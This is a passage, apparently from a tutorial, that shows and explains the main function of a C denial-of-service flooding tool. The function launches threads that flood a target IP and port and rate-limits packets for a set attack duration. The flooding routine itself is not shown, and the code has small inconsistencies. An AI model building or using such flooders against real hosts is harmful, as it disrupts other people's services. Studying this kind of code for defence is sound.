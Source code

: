 ```c
    // ...

    fprintf(stdout, "[+] starting threads...\n");
    for(int i = 0; i < num_threads; i++){
        if(pthread_create(&thread[i], NULL, &flooding_thread, target) != 0){
            perror("thread creation failed!");
            exit(1);
        }
    }

    fprintf(stdout, "[-] attack started!\n");

    
    for(int i = 0; i < (atoi(argv[4]) * 1000); i++) {
        usleep(1000);
        pthread_mutex_lock(&pps_mutex);

        
        if(pps > max_pps) {
            limiter++;
            sleeptime += 100;
        } else {
            if(limiter > 0) {
                limiter--;
            }
        }
        if(sleeptime > 25) {
            sleeptime -= 25;
        } else {
            sleeptime = 0;
        }

        pthread_mutex_unlock(&pps_mutex);
    }
    pps = 0;
    pthread_mutex_unlock(&pps_mutex);

    
    for(int i = 0; i < num_threads; i++) {
        pthread_cancel(thread[i]);
    }
    
    return 0;
}

```

- the `main` function is the entry point of the script.
- it checks if the script is provided with the required command-line arguments (target IP, target port, number of threads, attack duration, maximum pps).
- the global variables from earlier are set based on the command-line arguments.
- an array of threads (`threads[num_threads]`) is created to perform the attack, with each thread executing the `flooding_thread` function.
- the script then enters a control loop that manages the packet send rate based on the `max_pps` limit.
- once the attack duration is reached, the script cancels all threads, performs a cleanup, and exits!
